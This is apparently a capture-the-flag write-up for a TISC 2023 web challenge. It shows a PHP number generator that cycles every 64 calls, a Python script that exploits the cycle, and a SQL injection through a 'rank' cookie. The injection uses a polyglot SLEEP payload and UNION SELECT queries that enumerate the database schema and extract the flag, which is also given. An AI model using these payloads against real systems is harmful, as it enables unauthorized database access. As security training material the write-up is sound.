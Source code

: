 Overall, I feel this challenge was comparitively straightforward and provided some respite from the previous challenges.

We are asked to guess a number on the landing page, and the number seems to be randomly generated each time:

![number guessing page](/tisc23/the-chosen-ones-first.png)

Initially, I assumed the php `rand()` function was being used, and spent sometime researching on methods to predict the next random value based on previous outputs. This was largely unsuccessful. However, I eventually realised the source code for generating the 6 digit number was provided in a base32 encoded comment in the html.

```php
function random() {
  $prev = $_SESSION["seed"];
  $current = (int)$prev ^ 844742906;
  $current = decbin($current);
  while (strlen($current) < 32) {
    $current = "0" . $current;
  }
  $first = substr($current, 0, 7);
  $second = substr($current, 7, 25);
  $current = $second . $first;
  $current = bindec($current);
  $_SESSION["seed"] = $current;
  return $current % 1000000;
}
```

After studying this function for a while, I realised it produces a sequence that eventually repeats after being run a certain number of times due to the way the string is being rotated and xored. I wrote some code to check this:

```php
$a = random();
for ($i = 1; ; $i++) {
  if (random() == $a) {
    echo $i . "\n";
    break;
  }
}
```

This printed 64. So the first number will be the same as the 65th number produced. I wrote a python script:

```python:s.py
import requests
import re

sess = requests.Session()

sess.get('http://chals.tisc23.ctf.sg:51943/index.php')

resp = sess.get('http://chals.tisc23.ctf.sg:51943/index.php?entry=aoeu')
a = int(re.search('The lucky number was (\d+?)<BR>', resp.text).group(1))

for _ in range(63):
    sess.get('http://chals.tisc23.ctf.sg:51943/index.php?entry=aoeu')

resp = sess.get('http://chals.tisc23.ctf.sg:51943/index.php?entry=' + str(a))
print(resp.text)

print(sess.cookies.get_dict())

sess.close()
```

```plaintext
<center>
Personnel List <br>
<iframe src="table.php" title="personnel" width="750" height="1500" frameBorder="0">
</center>

{'PHPSESSID': 'srav744br8cui13r6dgb15j2cv', 'rank': '0'}
```

I copied the `PHPSESSID` and `rank` cookies into Chrome, and viewed `/table.php`.

![table](/tisc23/the-chosen-ones-table.png)

I tried some standard sql injection payloads such as `' or 1=1;--`, however they didn't seem to work. I then tried a polyglot injection payload I found on PayloadAllTheThings:

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

This yielded no results on both the username and password fields.

Then I remembered the strange `rank` cookie and tried to figure out what it did. I changed the value to 1, and this time the table was larger:

![table](/tisc23/the-chosen-ones-table-2.png)

Changing the value to 2, I could see more rows with users of rank 2 as well. So rank is probably included in the sql query as well and a possible vector for sql injection. I set rank to the polyglot injection payload above and sent another request. This time, the request returned a server error after a while, so the sql injection was successful.

Next, I had to identify the type of database. Referring to this [list of payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification), I sent `rank=1 and conv('a',16,2)=conv('a',16,2);--` and it succeeded, showing that the underlying database is MySQL.

Next, we have to extract information about the db schema. Following [this section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema), I sent a request with `rank=-1 union select schema_name, 1, 1, 1 from information_schema.schemata;--`

There are 3 schemas, `information_schema`, `palindrome`, and `performance_schema`. palindrome seems to be what we want, so I listed the tables there with `rank=-1 union select table_name, 1, 1, 1 from information_schema.tables where table_schema = "palindrome";--`.

There were 2 tables, `CTF_SECRET` and `PERSONNEL`. I listed the columns in the `CTF_SECRET` table using `rank=-1 union select column_name, 1, 1, 1 from information_schema.columns where table_name = "CTF_SECRET";--`. There was only one column: `flag`.

I sent my final request with `rank=-1 union select flag, 1, 1, 1 from palindrome.CTF_SECRET;--`, and got the flag: `TISC{Y0u_4rE_7h3_CH0s3n_0nE}`.